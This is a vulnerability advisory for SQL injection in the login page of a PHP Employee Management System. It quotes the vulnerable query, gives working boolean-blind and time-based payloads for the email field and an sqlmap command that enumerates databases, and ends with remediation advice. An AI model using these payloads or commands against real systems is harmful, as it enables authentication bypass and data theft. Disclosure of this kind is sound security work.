




### **Vulnerability Title: Employee Management System SQL Injection Vulnerability** 

------

### **I. Basic Vulnerability Information**

- **Official Website Homepage:** [Free Source Code Projects and Tutorials - sourcecodester.com](https://www.sourcecodester.com/)
- **Open Source Project Link:** [Employee Management System using PHP and MySQL | SourceCodester](https://www.sourcecodester.com/php/16999/employee-management-system.html)

- **Context:** Sourcecodester is a well-known open-source code and application sharing platform. The affected "Employee Management System" has over 58,000 subscriptions/views on this platform. 
- **Vulnerability Type:** SQL Injection (SQLi) 
- **Required Privileges:** Ordinary user permissions. 

------

### **II. Vulnerability Description**

Attackers can exploit multiple SQL injection vulnerabilities within the system to achieve unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, or service disruption. This poses a severe threat to the system's security and business continuity. 

------

### **III. Code Audit**

- **Vulnerable File:** `Account/Login.php` (Lines 18-19) 

- **Code Audit / Analysis:** The application processes user logins by constructing the following SQL query: `$sql = "SELECT * FROM tblemployee WHERE email='" .$email. "' and password = '".$password."' and status = '".$status."'";`. This string is then executed directly via `$result = mysqli_query($conn, $sql);`. Because the user input is directly concatenated into the SQL statement without any sanitization or parameterization, an attacker can manipulate the query logic to bypass authentication or extract data. 

------

### **IV. Proof of Concept (PoC)**

**1. Exploit Payloads**

- **Parameter:** `txtemail` (POST) 
- **Type:** boolean-based blind 
- **Title:** OR boolean-based blind - WHERE or HAVING clause 
- **Payload:** `btnlogin=&txtemail=-7939' OR 7897=7897-- zqUs&txtpassword=123` 

- **Type:** time-based blind 

- **Title:** MySQL >= 5.0.12 AND time-based blind (query SLEEP) 

- **Payload:** `btnlogin=&txtemail=123@123' AND (SELECT 5446 FROM (SELECT(SLEEP(5)))iXoL)-- tXtf&txtpassword=123` 

  

**2. SQLmap Command for Verification**

- `sqlmap -u "http://employee_akpoly.test/Account/Login.php" --data "btnlogin=&txtemail=123%40123&txtpassword=123" -p txtemail --dbs --batch --level 5 --risk 3` 

------

### **V. Remediation / Solutions**

1. **Official Patches:** Closely monitor the official website for patch updates. 
2. **Use Prepared Statements and Parameter Binding:** Prepared statements can prevent SQL injection because they separate the SQL code from the user input data. When using prepared statements, the user's input values are treated purely as data and will not be interpreted as SQL code. 
3. **Input Validation and Filtering:** Strictly validate and filter user input data to ensure it conforms to the expected format. 
4. **Regular Security Audits:** Conduct regular code and system security audits to identify and fix potential security vulnerabilities in a timely manner. 